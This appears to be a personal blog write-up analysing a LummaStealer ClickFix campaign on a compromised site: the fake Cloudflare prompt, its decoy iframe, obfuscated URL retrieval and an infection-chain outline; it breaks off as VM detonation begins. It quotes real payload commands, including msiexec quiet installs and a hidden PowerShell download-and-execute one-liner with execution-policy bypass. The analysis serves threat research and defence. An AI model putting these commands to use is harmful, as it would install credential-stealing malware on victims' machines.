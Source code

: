 ```yaml
---
layout: post
title:  "LummaStealer - ClickFix MSI Installer Payload"
date:   2025-06-16 21:00:00 +1000
categories: malware analysis
---
```


<style>
  body { font-size: 13px; }
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview - LummaStealer Malware Analysis (27th July 2025)

Full malware analysis on LummaStealer on a compromised website. This one took me some time as the malware is super impressive.

LummaStealer has lots of different variants. Therefore, malware analysis found online varies significantly. A compromised website I've been monitoring that has pushed three different samples of LummaStealer to it's victims in the past week. Furthermore, each time you query the stage one domain the network IOCs change. So, it's super neat. One cool pickup that does seem consistent is. If your host in running in Russian, the malware terminates. Make of that what you like.

### Compromised Website ClickFix

I've booted up my Windows 10 VM so we can whack this through and see what happens.

Here is the Clickfix prompt on load. First, lets see how this got here? Where from? I've checked the Network tab in dev tools and found two suspicious domains that my browser has received HTTP requests from as a result of visiting this website
- api[.]brainbotfilebeatsave[.]com
- fullporner[.]com

![Stage 1](/images/cloudflare_stage1.PNG)
![Stage 2](/images/cloudflare_stage2.PNG)

So why are we sending GET requests to brainbot by visiting the website? This little iframe here.

![BrainBot iframe](/images/brainbot_iframe.PNG)

We can see we sent a GET request to brainbot and as a response received some HTML/CSS/JS. The IP of brainbot is 104.21.48.1. Which is a CloudFlare proxy IP. Side note but an important one - adversaries seem to use cloudflare IPs to mask the IPs of their webservers quite frequently. Given that this attack uses a cloudflare clickfix prompt its more believable for level 0 soc analysts triaging this alert. 

![First GET Request to Brainbot](/images/get_brainbot.PNG)

Secondly we can see a GET request fullporner[.]com directly after sending a GET request to brainbot. 

![First GET Request to FullPorner](/images/fullporner_referral.PNG)

Let's inspect the script brainbot sent to us after our GET request.

First up we can see functions for browser fingerprinting and IP checking. Actually, what's really cool is the .js makes you query IP config sites yourself! 

![IP query](/images/ip_query.PNG)

Now we have the .html, .css and a bit of .js that displays the fake verification page and captures the results. 

![Cloudflare Clickfix](/images/cloudflare_html.PNG)

At the start of the .html we have an iFrame to fullporner[.]com but it doesn't look like it does anything? Now I'm almost certain this for some sort of decoy. I thought maybe brainbot was retrieving suspicious stuff from fullporner[.]com but nope. I was wrong. I guess if a SOC analyst looks at this alert they might think it's some dodgy porn page, rather than a LummaStealer loader. I'm not too sure, this is hilarious.

![iFrame](/images/full_porner.PNG)

Ok now lets get into the good stuff. 

![sjsh function](/images/sjsh_malicious_function.PNG)

We can see the function (sjsh) sends a GET request to an unknown domain. When loaded, it copies the constant 'command' to the users clipboard. Now the spuds have commented out earlier payloads. So we can infact see four different payloads! Interesting there is both a powershell and multiple msiexec payloads. This goes back to my comment earlier, there is so many different payloads for Lumma. Anyway, lets have a look at what some of the flags mean in these payload commands. 
1. ```const command = `msiexec /qn /i ${gotourl};```
- (/i) = tells msiexec to install the following package
- (/qn) = quiet mode with no UI for install
2. ```//const command = `msiexec KLSK=1101 /package ${gotourl} /promptrestart LAPBO=189 /quiet NIANS=299;```
3. ```const command = `msiexec SKSIA=1401 /package ${gotourl} /promptrestart LAPBOS=119 /passive NIANS=299;```
- (/package) = specifies .msi to install (same as /i)
- (/promptrestart) = restarts prompt at end if needed
- (/quiet) = quiet mode install
- KLSK, LAPBO, NIANS. These aren't msiexec flags. They could potentially define custom properties in the .msi file.
4. ```//const command = `powershell -w h -c "$f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1';curl ${gotourl} -o $f;powershell -w h -ep Bypass -f $f"`;```
- (-wh h) = WindowStyle and hidden
- (-c) = command
- ($f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1') = Creates random .ps1 script in Temp directory
- (curl ${gotourl} -o $f) = Downloads file from URL
- (-ep Bypass) = disables execution policy
- (-f) = runs file

Now we can see the payload, but no domains. So lets check out the variable ```gotourl``` is calculated because I reckon it'll give us the domain. It looks heavily obfuscated. Here is a snippet of the .js of it. Here is a step by step breakdown of it.
![Go To URL](/images/go_to_url.PNG)

1. Function takes the 'jsh' value when the function is called
2. Sends a GET request to brainbot using the following URL parameter ```/?jsc=<jsh>&f=<f>&t=<rt>```
3. If the request is successful (200) we receive a base64 string.
- ```let gotourl = hex2a(strrev(atob(hex2a(strrev(atob(xhr.response))))))```
- B64 decodes raw response (atob(xhr.response))
- Reverses the string (strrev(atob_returned_value))
- Converts string to ASCII (hex2a(strrev_returned_value))
- Now repeat again! Because there are 6 layers!
4. Now we have our domain ```window.gotourl = URL```

So now we know how this works. Lets try grab this domain. After clicking the tick box, I send a GET request to brainbot with the jsc flag. This contains all the details brainbot needs to shoot me back a domain.

![encoded jsc](/images/jsc_obfuscate.PNG)

Now this is what brainbot returned. Also side note you can see the requests to the IP check domains on the side as well.

![brainbot base64 response](/images/brainbot_response.PNG)

Lastly, lets deobfuscate. My friend ChatGPT will assist here.

![gospel output](/images/payload_url.PNG)

Plot twist! You have got to be joking. So essentially what this means is. LummaStealer is getting it's payloads from FullPorner. Now becuase it's .php we can't view it in a browser. 

When I go to paste the command in run I get the domain 'veriqloudx' not 'fullporner'. Anyway, veriq was created two days ago. Pretty neat, good rep on VT. Nice.
![VT Veriqloudx](/images/veriq_rep.PNG)

### LummaStealer on my VM

Alright now we know what the server side is getting up to. Lets run one of these payloads in a VM and dig into what it's doing.

I'm going to go with:
- ````powershell -w h -c "$f=$env:TEMP+'\\'+[guid]::NewGuid()+'.ps1';curl ${gotourl} -o $f;powershell -w h -ep Bypass -f $f```

LummaStealer as per previous writeups does VM/Sandboxing detection capabilities. So this may be difficult.

Anyway, here is my setup for running this.
- Windows 10 VM (Snapshotted before malware detonation)
- WireShark
- Procmon
- Process Explorer
- API Monitor
- Pe Bear

The Lumma infection chain tends to work like this.
1. Downloads payload
2. Pulls C compiler and creates malicious .cmdline files
3. Runs these files in memory
4. Creates persistence
5. Scans browsers and other locations for passwords and host information
6. Exfilitrates initial data
7. Downloads and executes beacon